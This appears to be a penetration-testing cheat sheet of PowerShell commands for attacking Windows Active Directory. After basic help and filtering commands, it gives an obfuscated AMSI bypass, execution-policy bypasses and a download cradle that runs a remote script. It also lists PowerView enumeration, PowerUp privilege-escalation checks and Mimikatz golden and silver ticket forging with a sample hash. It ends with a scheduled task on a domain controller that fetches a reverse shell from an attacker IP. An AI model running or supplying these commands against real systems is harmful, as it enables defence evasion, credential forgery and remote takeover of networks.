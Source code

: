 # Commands

# Powershell Basics

#### Help
```
Get-Help Get-Help
Get-Help *
Get-Help process
Get-Help Get-Item -Full
Get-Help Get-Item -Examples
```
#### Modules
```Import-Module modulepath```

```Get-Command -Module <modulename>```



#### Filter property string search

```Get-ADUser -Filter * | Where-Object {$_.Name -like '*smith*'}```
  
```Get-Service | Where-Object {$_.DisplayName -like '*Windows*'}```



```Get-Process | Select-Object -Property * | Where-Object { $_.psobject.Properties.Value -like '*chrome*' }```

```Get-Process | Select-Object -Property * | Where-Object { $_.* -like '*chrome*' }```

```Get-ANYTHING  | Select-Object -Property * | Where-Object { $_.* -like '*admin*' }```

# Running Powershell
#### Lazy AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ); ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

```
$var1 = 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx'; $var2 = [TYpE]("{1}{0}"-F'F','rE'); $var3 = (GeT-VariaBle ("1Q2U" +"zX") -VaL)."A`ss`Embly"."GET`TY`Pe"("{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'); $var4 = $var3."g`etf`iElD"(("{0}{2}{1}" -f'amsi','d','InitFaile'), ("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,')); $var4."sE`T`VaLUE"(${n`ULl},${t`RuE})
```

#### EP Bypass
Start PowerShell from cmd.exe:

```Powershell- c <cmd>```

```powershell.exe -ep bypass```

OR If already running-

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```

# PS Ingress

#### Execution cradle
```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

#### download
```(new-object System.Net.Webclient).DownloadFile("https://raw.githubusercontent.com/conma293/mvp/main/1.ps1", "C:\Windows\Temp\1.ps1")```

# Powerview
```. .\PowerView.ps1```
#### Machines

```Get-DomainComputer```
```Get-DomainComputer –OperatingSystem "*Server 2016*" ```
```Get-DomainComputer -Ping```
```Get-DomainComputer -FullData```

```Get-ADComputer -Filter * | select Name```

```Get-ADComputer -Filter 'OperatingSystem -like "*Server 2016*"' - Properties OperatingSystem | select Name,OperatingSystem```

```Get-ADComputer -Filter * -Properties *```

```Get-ADComputer -Filter *  -Properties DNSHostName | %{Test- Connection -Count 1 -ComputerName $_.DNSHostName}```




```Get-NetLocalGroup -ComputerName WKSNTl -ListGroups``` List all the local groups on a machine (needs admin privs on non-
dc machines)

```Get-NetLocalGroup -ComputerName WKSNTl -Recurse``` Get members of all the local groups on a machine (needs admin privs on non-dc machines)


```Get-NetLoggedon –ComputerName <servername>``` (needs localadmin)

```Get-LoggedonLocal -ComputerName``` (needs localadmin)
#### User Search
```Get-DomainUser```
```Get-DomainUser –Identity bob```

```Get-ADUser -Filter * -Properties *```
```Get-ADUser -Identity bob -Properties *```

#### Group Membership
```Get-DomainGroupMember -Identity "Domain Admin*" -Recurse```

```Get-DomainGroupMember -Identity "Domain Admin*" | select GroupName, MemberName```

```Get-ADGroupMember -Identity "Domain Admins" -Recursive```


```Get-DomainGroup –UserName "bob"```


#### Shares, GPOs, etc


```Invoke-ShareFinder –Verbose```
```Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC –Verbose```

```Invoke-FileFinder –Verbose```

```Get-NetFileServer```

* * *

#### User Hunting

```Run Find-LocalAdminAccess``` - find all machines on current domain where current user has localadmin access

```Run Find-LocalAdminAccess -CheckAccess``` - list sessions where you have access to the machine

```Invoke-UserHunter``` for users/groups you want - will show all active sessions for users/users of specified groups

```Invoke-UserHunter -GroupName "RDPUsers"```

* * *

# Priv Esc

Run PowerUp - are you already localadmin?
```
. ./PowerUp.ps1
Invoke-AllChecks 
```


```Get-UnquotedService```

```Get-ModifiableService```

```Get-ModifiableServiceFile | select servicename, abusefeature```

# Tickets

NTLM == RC4

#### Golden

```
Invoke-Mimikatz -Command '"kerberos::golden 
/User:DonaldDuck /domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /krbtgt:731a061e57100b658bc59d71f5176e93
id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### Silver
SPNs - https://adsecurity.org/?page_id=183
```
Invoke-Mimikatz -Command '"kerberos::golden 
/domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /target:dc01.ecorp.local /service:HOST 
/rc4:731a061e57100b658bc59d71f5176e93 /user:Administrator /ptt"
```

```
schtasks /create /S dc01.ecorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Updater123" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.111:8080/Invoke-PowerShellTcp.ps1'')'"
```

```
schtasks /Run /S dc01.ecorp.moneycorp.local /TN "Updater123"
```
